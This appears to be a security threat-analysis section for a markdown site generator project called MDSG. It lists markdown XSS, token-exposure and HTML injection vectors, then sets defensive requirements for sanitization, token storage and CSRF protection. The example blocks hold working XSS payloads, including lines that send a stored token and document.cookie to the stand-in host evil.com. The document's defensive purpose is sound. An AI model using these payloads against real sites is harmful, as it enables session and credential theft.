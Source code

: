 ## 🔍 **MDSG-Specific Threat Analysis**

**Critical Attack Vectors to Monitor:**

1. **Markdown XSS Injection**

   ```javascript
   // 🚨 HIGH RISK: Common XSS vectors in markdown
   "[Click me](javascript:alert('XSS'))";
   "![XSS](data:text/html,<script>alert('XSS')</script>)";
   "<script>window.location='evil.com?token='+localStorage.token</script>";
   "<img src=x onerror='fetch(\"evil.com?data=\"+document.cookie)'>";
   ```

2. **Token Exposure Risks**

   ```javascript
   // 🚨 MEDIUM RISK: Token security vulnerabilities
   localStorage.setItem('token', 'ghp_...'); // Persistent storage risk
   window.token = 'ghp_...'; // Global scope exposure
   console.log('Token:', token); // Debug information leakage
   fetch(url, { headers: { token: token } }); // Insecure transmission
   ```

3. **Content Injection Attacks**
   ```javascript
   // 🚨 MEDIUM RISK: HTML/CSS injection vectors
   "<iframe src='javascript:alert(1)'></iframe>";
   "<svg onload='document.location=\"evil.com\"'></svg>";
   "<style>body{background:url('javascript:alert(1)')}</style>";
   "<meta http-equiv='refresh' content='0;url=evil.com'>";
   ```

## 🛡️ **Security Standards for MDSG**

**Non-Negotiable Security Requirements:**

✅ **XSS Prevention (35 points)**

- ALL markdown links must validate URL schemes (no javascript:, vbscript:,
  data:)
- ALL HTML output must be sanitized before DOM insertion
- NO eval(), innerHTML without sanitization, or dynamic script execution
- Content Security Policy headers where technically feasible

✅ **Authentication Security (25 points)**

- sessionStorage ONLY for tokens (never localStorage)
- Token validation before storage and transmission
- Automatic expiration (24 hours maximum)
- Complete cleanup on logout/session end

✅ **CSRF Protection (20 points)**

- Cryptographic token generation using crypto.getRandomValues()
- Timing-safe token validation
- Origin validation for all state-changing operations
- Token expiration (1 hour maximum)
